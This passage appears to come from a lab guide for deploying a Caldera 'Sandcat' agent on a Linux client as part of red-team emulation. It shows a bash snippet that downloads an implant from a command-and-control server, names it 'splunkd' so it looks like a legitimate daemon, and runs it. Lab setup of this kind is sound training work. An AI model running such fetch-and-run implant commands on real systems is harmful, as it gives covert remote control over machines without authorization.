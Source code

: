 ![image.png](image%2010.png)

### **Deploying Linux Agent**

Click 'Deploy an Agent'. For Agent, select 'Sandcat'. For Platform, select 'Linux'.  Copy and paste the commands into the Linux client.

For example:

```bash
server="http://10.0.0.100:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
chmod +x splunkd;
./splunkd -server $server -group red -v
```
